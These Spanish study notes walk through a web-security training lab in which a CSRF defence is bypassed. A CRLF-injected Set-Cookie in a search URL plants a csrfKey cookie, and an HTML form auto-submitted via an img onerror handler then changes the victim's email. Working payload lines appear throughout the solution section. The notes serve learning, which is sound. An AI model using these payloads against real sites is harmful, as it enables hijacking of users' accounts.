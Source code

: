 En esta clase continuamos con la explotación de sistemas con defensas CSRF mal implementadas. El servidor emplea una cookie llamada ‘**csrfKey**‘ junto al token CSRF, pero esta cookie no está ligada a la sesión del usuario, por lo que es posible inyectarla en el navegador de la víctima aprovechando la funcionalidad vulnerable del buscador.

El ataque se desarrolla en dos fases:

- Inyección de la cookie ‘**csrfKey**‘ en el navegador víctima mediante una URL de búsqueda que fuerza al servidor a emitir un encabezado ‘**Set-Cookie**‘ reflejado.
- Envío del formulario CSRF con el token correspondiente, haciendo uso de la cookie previamente establecida.

Gracias a esto, conseguimos alterar la dirección de correo de la víctima sin que el servidor lo detecte como una acción ilegítima.

Este escenario demuestra cómo incluso mecanismos aparentemente robustos pueden ser burlados cuando no se integran correctamente con la lógica de sesión.

Solucion
Como veiamos en la otra imagen nosotro teniamos un SET-Cookie en la parte del send asi que lo que nosotros podriamos hacer es hacer un salto de lienar para obtener otro nuevo SET-COOKIE para ello en el codigo ascii podemos ver eso
![Pasted image 20250723201619.png](imagenes/Pasted image 20250723201619.png)

asi que vamos a pasar esto para cambiarlo
(/?search=hola%20Set-Cookie:%20csrfKey=a )
![Pasted image 20250723201727.png](imagenes/Pasted image 20250723201727.png)
asi que esto no lo vamos a llevar a decoder y ahi vamos a darle decoder y le ponemos URL y vamos agregar lo siguiente
(/?search=hola%0D%0ASet-Cookie:%20csrfKey=a) tuvimos que eliminar el %20 despues del hola
![Pasted image 20250723202139.png](imagenes/Pasted image 20250723202139.png)
ahora lo vamos a suplantar por lo que teniamos  asi que podemos ver que si funciona el cambio
![Pasted image 20250723202613.png](imagenes/Pasted image 20250723202613.png)
con todo obtenido vamos a obtener nuestro payload
lo primero copiamos el formulario
![Pasted image 20250723202931.png](imagenes/Pasted image 20250723202931.png)
y en este caso vamos a cargar una imagen 
(<form class="login-form" name="change-email-form" action="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/my-account/change-email" method="POST">                          
    <input type="hidden" name="email" value="hola@tenso.com">
    <input required="" type="hidden" name="csrf" value="myxrfjEOa56IEtZMnXN2y8zGACc33wuI">
</form>

<img src="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/?search=/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20SameSite=None" onerror="document.forms[0].submit()">)
![Pasted image 20250723204922.png](imagenes/Pasted image 20250723204922.png)

basicamente en el primer csrf ponemos esto del wiener
![Pasted image 20250723205010.png](imagenes/Pasted image 20250723205010.png)
y en el segundo ponemos esto 
![Pasted image 20250723205036.png](imagenes/Pasted image 20250723205036.png)
pero aqui le vamos agregar algo (/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20 SameSite=None)
![Pasted image 20250723205116.png](imagenes/Pasted image 20250723205116.png)

